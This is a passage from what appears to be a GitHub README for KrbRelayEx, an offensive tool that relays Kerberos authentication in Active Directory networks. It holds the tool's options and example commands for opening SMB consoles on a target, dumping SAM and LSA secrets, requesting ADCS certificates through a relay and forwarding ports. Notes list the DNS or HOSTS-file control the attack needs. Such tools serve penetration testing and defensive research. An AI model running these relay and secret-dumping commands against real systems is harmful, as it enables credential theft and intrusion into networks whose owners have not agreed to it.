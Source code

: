 ```plaintext
  -endpoint <ENDPOINT>           Specify the HTTP endpoint to target (e.g., 'CertSrv')
  -adcs <TEMPLATE>               Generate a certificate using the specified template

Options:
  -redirectserver <IP>           Specify the IP address of the target server for the attack
  -ssl                           Use SSL transport for secure communication
  -redirectports <PORTS>         Provide a comma-separated list of additional ports to forward to the target (e.g., '3389,445,5985')
  -rpcport <PORT>                Specify the RPC port to listen on (default: 135)

Examples:
  Start an interactive SMB console:
    KrbRelay.exe -spn CIFS/target.domain.com -console -redirecthost <ip_target_host>

  List SMB shares on a target:
    KrbRelay.exe -spn CIFS/target.domain.com -list

  Dump SAM & LSA secrets:
    KrbRelay.exe -spn CIFS/target.domain.com -secrets -redirecthost <ip_target_host>

  Start a background SMB console on port 10000 upon relay:
    KrbRelay.exe -spn CIFS/target.domain.com -bgconsole -redirecthost <ip_target_host>

  Generate a certificate using ADCS with a specific template:
    KrbRelay.exe -spn HTTP/target.domain.com -endpoint CertSrv -adcs UserTemplate-redirecthost <ip_target_host>

  Relay attacks with SSL and port forwarding:
    KrbRelay.exe -spn HTTP/target.domain.com -ssl -redirectserver <ip_target_host> -redirectports 3389,5985,135,553,80

Notes:
  - KrbRelayEx intercepts and relays the first authentication attempt,
    then switches to forwarder mode for all subsequent incoming requests.
    You can press any time 'r' for restarting relay mode

  - This tool is particularly effective if you can manipulate DNS names. Examples include:
    - Being a member of the DNS Admins group.
    - Having zones where unsecured DNS updates are allowed in Active Directory domains.
    - Gaining control over HOSTS file entries on client computers.

  - Background consoles are ideal for managing multiple SMB consoles

** IMPORTANT: Ensure that you configure the entries in your hosts file to point to the actual target IP addresses!

```


# Examples
<img width="754" alt="image" src="https://github.com/user-attachments/assets/6f1852f3-2c12-4493-b73f-c673b70d552c" />
